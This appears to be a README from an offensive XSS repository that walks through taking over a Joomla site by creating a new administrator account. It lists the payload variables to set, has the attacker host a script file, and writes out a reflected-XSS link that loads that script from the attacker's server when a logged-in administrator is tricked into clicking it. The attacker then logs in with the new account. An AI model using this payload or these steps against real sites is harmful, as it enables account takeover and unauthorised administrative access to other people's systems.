 # [ATO] Create New Admin User

## Test Environment

### Web Browsers (20250426)

* [x] Mozilla Firefox 137.0.2 (64-bit)
* [x] Google Chrome 135.0.7049.115 (64-bit)
* [x] Microsoft Edge 135.0.3179.98 (64-bit)

## Exploitation Steps

1. [setup exploit] change payload variable values (`createAdminAccJoomla.js`)

    `newAccUser` - username of the user account to be created

    `newAccPass` - password of the user account to be created (**NOTE**: minimum password length is 12 characters)

    `newAccEmail` - email of the user account to be created

    `joomlaRoot` - path to Joomla installation on the target system (e.g. `"/joomla"`)

2. [setup exploit] setup web server (to serve the payload)

3. [social engineering attack] victim user (with administrative privileges) logs in

    http://192.168.5.19/administrator

4. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.19/rxss.php?q=<script src=http://192.168.5.5/createAdminAccJoomla.js></script>
    ```

    * **NOTES**:
      * `192.168.5.19` - target Joomla site
      * `192.168.5.5` - web server hosting payload

5. [post exploit] attacker logs into target Joomla site using specified credentials

    http://192.168.5.19/administrator/

## Screenshot

* **NOTE**: the screenshot covers steps 1 to 4 from the "Exploitation Steps" chapter

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/Joomla/CreateNewAdmin/screenshots/Joomla_-_create_new_admin_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/Joomla/CreateNewAdmin/screenshots/Joomla_-_create_new_admin_-_1-1.png">
    </picture>
  </kbd>
</p>

## Video

https://github.com/user-attachments/assets/5276712b-9124-479b-9e7c-be783178d47a
